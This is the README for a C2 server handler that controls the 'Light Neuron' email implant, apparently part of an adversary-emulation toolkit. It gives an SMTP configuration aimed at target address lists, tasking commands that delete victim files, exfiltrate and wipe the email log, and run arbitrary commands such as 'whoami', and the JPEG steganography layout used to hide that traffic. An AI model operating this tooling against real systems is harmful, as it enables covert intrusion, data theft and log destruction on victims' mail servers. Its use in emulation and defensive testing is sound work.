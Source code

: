 
# Light Neuron Handler

The Light Neuron C2 handler is the server-side counterpart for the Light Neuron implant
and is specifically designed to interact with it over email.

## Components

## Usage

### Configuration

To enable and configure the Light Neuron handler within the control server, edit
the `config/handler_config.yml` from the main C2 server repo. Adjust the Light Neuron entry as needed.

- host: The SMTP server used to send emails.
- port: The SMTP server Port
- mailFrom: The email address that will appear as the sender.
- username: SMTP username
- password: SMTP password
- image_file_path: The path to the unmodified image used as the stego attachment.
- watch_dir_path: The path on the C2 server that is polled for incoming mail attachments
- recipientFilePath: The text file that holds a list of implant emails/sessions
- encryption: [true/false] used to tell the handler to encrypt traffic or use plain text traffic.

Example:

```
lightneuron:
    host: mail.evilcorp.com
    port: 25
    mailFrom: noreply@evilcorp.com
    username: "postfix"
    password: "postfix_secret_password"
    image_file_path: "/home/postfix/image.jpg"
    watch_dir_path: "/home/user/mail/attachments"
    recipientFilePath: "/path/to/target_emails.txt"
    encryption: true
    enabled: true
```

Run the `controlServer` binary as `sudo` and look for success messages in starting up the LightNeuron handler:

```
sudo ./controlServer
```

### Registering Implants

Since the LightNeuron implant doesn't beacon by design, implant session registration is approached different from other handlers.
To register an implant session with the Lightneuron handler the handler configuration must have a `recipientFilePath` set.
 The recipient/target email addresses saved in the file will be registered with the C2 server when the server starts.

The file is a .txt documents that has a single target email per line.

Valid formatting for a recipientFilePath .txt:

```
email1@validemail.com
email99@corp.local
target00@mail.local
```

### Tasking Implants

To task an implant you need the GUID (in this case, the target email address), the command ID, and the command to execute.

The Implant will accept the following command ID's:

- Command ID 2: This command will task the implant to delete a given file.
- Command ID 3: This command ID is used to exfiltrate the email log file. It can be passed with a 0 or 1 flag.
  - 0 will exfiltrate the file without deleting.
  - 1 will exfiltrate the file then delete it.
- Command ID 5: This command ID is used to execute a command on the target system.

File Deletion Example:

```
./evalsC2client --set-task <GUID/EMAIL> '<cmdID> | <Path to File>'
./evalsC2client --set-task target@mail.local '2 | C:\\file.txt'
```

Email Exfiltration Example:

```
./evalsC2client --set-task <GUID/EMAIL> '<cmdID> | <Deletion Flag>'
./evalsC2client --set-task target@mail.local '3 | 0'
./evalsC2client --set-task target@mail.local '3 | 1'
```

Command execution example:

```
./evalsC2client --set-task <GUID/EMAIL> '<cmdID> | <command to execute>'
./evalsC2client --set-task target@mail.local '5 | whoami'
```

## LightNeuron Stegonagraphy

The light neuron implant uses a .jpg file to hide command and resulting output data inside. The data is stored at a particulate byte offset inside a "container". The container is a specified length of bytes prepended with the length so that the correct information can be read.

Container Layout:

```
@ xx byte offset [Container Size][Container]
```

The recieving end will read the container size and create variable to hold the container data.
Fianlly, the recieving end will read the number of bytes contained in the container size resulting in clean output/command data.

This stegonagraphy process is bidirectional.

On the C2 side, to reduce bloat logged by the C2 server, if the output is above 1000 bytes then the entire output is written to a file. This allows for simple commands/output (eg. `whoami`, `ipconfig`) to output to the C2 log, but file exfiltration and large command output will go into specific files.

### Testing

### References

This handler uses an external email library to create and send emails over smtp using Postfix
<https://github.com/xhit/go-simple-mail/v2>
